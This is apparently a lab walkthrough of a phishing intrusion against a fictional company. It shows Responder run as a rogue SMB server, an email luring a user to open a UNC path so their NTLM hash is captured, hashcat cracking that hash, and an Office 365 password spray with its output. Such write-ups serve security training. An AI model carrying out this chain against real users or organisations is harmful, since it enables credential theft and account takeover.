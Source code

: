 
Since company uses Azure, there's a high chance that they use Active Directory and Windows. Thus, we can try to corce the target user to authenticate to our malicious server. When user authenticates to our malicious server (for example SMB), it will trigger the NTLM [authentication](https://learn.microsoft.com/en-us/windows/win32/secauthn/microsoft-ntlm) process

We can create a malicious SMB server using [Responder](https://github.com/lgandx/Responder), which is a LLMNR, NBT-NS and MDNS poisoner that also has inbuilt HTTP/SMB/MSSQL/FTP/LDAP rogue authentication servers, which also supports a wide variety of authentication methods. 
```
└─$ python3 Responder.py -I eth0
```
With Responder running, we need to create a malicious email. We ask the user to copy the UNC (file server) path to a run box, paste and click `OK` to open it, forcing authentication. The IP address is our rogue SMB server.

![](phished-for-initial-access-1.png)

After few minutes, we get a hit and successfully capture the `Net-NTLMv2` hash of the `SECURITY-PC\sam` user.

![](phished-for-initial-access-2.png)

Save the hash in the file and use `hashcat` to crack it
```
└─$ hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```

![](phished-for-initial-access-3.png)

It worked, now we have the password for `SECURITY-PC\sam`


It's worth checking if Sam Olsson has also set this password for their corporate `sam.olsson@megabigtech.com` account. Let's use `Oh365UserFinder` again. Save the valid email in the file. Note that we can't validate credentials for single emails using the tool, as the `-e` parameter is just for identifying users.
```
└─$ python3 oh365userfinder.py -p '<REDACTED>' --pwspray --elist emails.list

   ____  __   _____ _____ ______   __  __                  _______           __          
  / __ \/ /_ |__  // ___// ____/  / / / /_______  _____   / ____(_)___  ____/ /__  _____
 / / / / __ \ /_ </ __ \/___ \   / / / / ___/ _ \/ ___/  / /_  / / __ \/ __  / _ \/ ___/ 
/ /_/ / / / /__/ / /_/ /___/ /  / /_/ (__  )  __/ /     / __/ / / / / / /_/ /  __/ /     
\____/_/ /_/____/\____/_____/   \____/____/\___/_/     /_/   /_/_/ /_/\__,_/\___/_/     

                                   Version 1.1.2                                         
                               A project by The Mayor                                    
                        Oh365UserFinder.py -h to get started                            

------------------------------------------------------------------------------------------

[info] Starting Oh365 User Finder at Tue Sep 23 00:29:14 2025

[+] sam.olsson@megabigtech.com                   Result -   VALID PASSWORD - MFA ENABLED [+]

[info] Oh365 User Finder discovered one valid credential pair.

[info] Scan completed at Tue Sep 23 00:29:15 2025
```
